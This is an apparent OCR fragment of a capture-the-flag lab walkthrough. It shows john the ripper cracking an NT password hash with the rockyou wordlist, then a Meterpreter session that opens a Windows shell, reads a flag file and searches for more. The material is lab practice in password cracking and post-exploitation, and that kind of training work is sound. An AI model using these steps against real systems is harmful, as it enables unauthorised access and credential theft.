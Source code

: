 # john --format=NT --wordlist=rockyou.txt hash

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22 (Jon)  
1g 0:00:00:00 DONE (2025-09-17 14:59) 1.075g/s 10968Kp/s 10968Kc/s 10968KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.

# alqfna22 -> found

# meterpreter > search -f \*.txt

# meterpreter > cat c:\flag1.txt

[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > shell
Process 1552 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd ..
cdcd ..

C:\Windows>cd ..
cdcd ..
'cdcd' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows>cd ..
cd ..

C:\>type flag1.txt
type flag1.txt
flag{access_the_machine}

# background -> Background channel 2? [y/N] y

# meterpreter > search -f flag\*.txt

# Found 3 results...

Path Size (bytes) Modified (UTC)

---